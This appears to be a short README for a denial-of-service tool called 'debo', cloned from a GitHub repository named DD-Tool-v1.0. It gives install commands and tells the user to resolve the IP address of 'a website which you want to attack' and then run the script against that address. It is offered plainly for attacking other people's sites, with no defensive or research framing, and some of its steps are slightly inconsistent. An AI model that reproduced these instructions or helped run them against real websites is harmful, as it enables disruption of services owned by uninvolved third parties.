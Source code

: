 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/abdelfatah-kfs/DD-Tool-v1.0.git
debo need the 
<b>Name Server</b>
of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd debo<br>
$ python debo.py -s [ip Address] -t 135<br>
example:<br>
$ python debo.py -s 123.45.67.89 -t 135<br>

